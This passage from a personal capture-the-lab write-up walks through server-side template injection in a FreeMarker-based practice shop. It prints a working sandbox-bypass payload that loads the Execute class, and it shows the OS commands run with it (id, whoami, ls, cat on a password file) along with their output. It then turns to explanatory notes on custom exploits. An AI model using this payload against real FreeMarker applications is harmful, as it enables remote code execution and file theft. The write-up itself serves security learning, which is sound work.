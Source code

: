 For example, instead of `product.price` i put `halil`.

There I see the error and it is written the template engine, which is `freemarker`.

![[Pasted image 20250127013737.png]]

Now, there is a way here to explore the documentation for Java and to find a chain of methods that grant access to a class with a static method that lets you read files.

Another way is to see for some existing payloads, that will bypass the sandbox environment. Lets check on `Hacktricks` for `Freemarker`.

There is an available payload for the versions below 2.3.30:

```java
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

But, here we see that it uses the `article.class` but I don't know if we have that in our lab, so I will replace that with `product.class`.

There I see that I got some results back:

`<p>Hurry! Only 839 left of 3D Voice Assistants at uid=12002(carlos) gid=12002(carlos) groups=12002(carlos) .</p>`

Let's try `whoami`, and I see that it return `carlos`.

With the `ls` it shows that there exists in the current directory the `my_password.txt`:

`<p>Hurry! Only 999 left of 3D Voice Assistants at my_password.txt .</p>`

Let's try to open that by putting `cat my_password.txt`.

And I got the contents:

`<p>Hurry! Only 138 left of 3D Voice Assistants at neksr5agpxyvd0yfjpuy.</p>`

which by providing them solves the lab.

----------

**Constructing a custom exploit using developer-supplied objects**

Sometimes templates run in a secure, locked-down environment and this makes the exploitation for RCE much more difficult, there may be still some ways.

As for example, to read files, as developer-created objects that are exposed to the template can offer a less-hardened attack surface.

Since, documentation for site-specific objects are hard to find, sometimes non-existent, the exploitation should be done by investigating the website's behavior manually and identify the attack surface, the n construct the custom exploit accordingly.

### Lab.6 Server-Side Template Injection with a Custom Exploit
